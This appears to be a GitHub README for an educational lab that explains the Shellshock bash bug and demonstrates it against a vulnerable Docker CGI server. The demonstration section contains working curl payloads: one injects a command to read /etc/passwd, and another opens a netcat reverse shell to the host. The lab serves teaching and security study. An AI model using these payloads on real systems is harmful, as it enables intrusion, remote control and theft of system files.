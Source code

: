 forked from https://github.com/tex2e/docker-shellshock-cgi


# Shellshock
This repository consists of a description and a demonstration of the shellshock vulnerablity. The demonstration is based on a docker container containing a CentOS8 linux distribution with a vulnerable bash (v4.3), an Apache2 Webserver and netcat.

## Description of vulnerability
In the standard linx bash it is possible to store not only values but also functions in environment variables. When such functions are stored in environment variables, there is a bug that prevents the parsing process from not terminating after the function ends. Instead, anything entered after the function is executed directly in the current shell environment.

By itself, this bug cannot be abused from the outside. In combination with a webserver and an associated Common Gateway Interface (CGI) this bug becomes dangerous. The CGI interface is used to get e.g. browser specific data from the webserver to an application by the following procedure:


1. the request is sent to the web server 
2. the web server stores general data as environment variables in the current environment
3. the cgi application can get this information by reading the environment variables.

With this behavior, it is possible to send a request to the web server that contains some function-like lines and concatenated code snippets. After parsing the function, the parsing process does not stop and executes the additional code snippets directly in bash <br>
<br>
Source Code of commit: https://gist.github.com/drj11/e85ca2d7503f28ebfde8


## Demonstration
Prerequisites:
- Docker
- git 
- netcat

### Build and run docker container
1. clone this git repository 
```bash 
git clone https://github.com/juuugee/docker-shellshock-cgi.git 
 ```
2. navigate inside the cloned directory
```bash 
cd docker-shellshock-cgi/
 ```

3. build docker container: 
``` bash
docker build -t seccode/shellshock .
```
4. run docker container: 
``` bash
docker run -itd -p 80:80 --privileged --add-host=host.docker.internal:host-gateway --name secode_shellshock seccode/shellshock /sbin/init
``` 
To make sure that the docker container is running, enter the following url in a browser: 

    http://localhost:80


### Attack 1 
(Linux terminal preferred)

With the curl command, send a request to the webserver of the running docker container. 
In this example, the file **etc/passwd** can be accessed and directly printed out:
```bash
curl -A "() { :;}; echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://localhost:80/cgi-bin/test.cgi
```

In the command above, the expression *() { :;};* is a empty function which should be parsed into a envrionment variable. Instead of stopping the parsing process the addtional code is being executed, which accessses the **etc/passwd** file and prints it with the **/bin/cat** tool in our console.

### Attack 2 Reverse Shell
![Reverse-Shell](./images/reverseshell.jpg)
Source: (https://blog.finxter.com/python-one-line-reverse-shell/)
### Execution
in the second attack a reverse shell is being created. 
1. start netcat listener on the host computer:
```    
nc -lp 4545
```
This listener waits for the docker container to connect to it.     

2. Establish a connection:
In a second terminal send the request below to the webserver in the docker container. This leads to a reverse shell.
```
curl -A "() { :;}; /bin/bash -c \"nc host.docker.internal 4545 -e /bin/bash\"& " http://localhost:80/cgi-bin/test.cgi
```

After executing this command the netcat listener in the first termimal should display an incoming connection. Now it is possible to enter commands in this terminal which then are directly executed in the docker container. Below are some examples:
```
$ whoami
$ pwd
$ ls
$ cd
...
```

### See Also

- [mubix/shellshocker-pocs: Collection of Proof of Concepts and Potential Targets for #ShellShocker](https://github.com/mubix/shellshocker-pocs)
- [docker-shellshockable/Dockerfile at master · Zenithar/docker-shellshockable](https://github.com/Zenithar/docker-shellshockable/blob/master/Dockerfile)
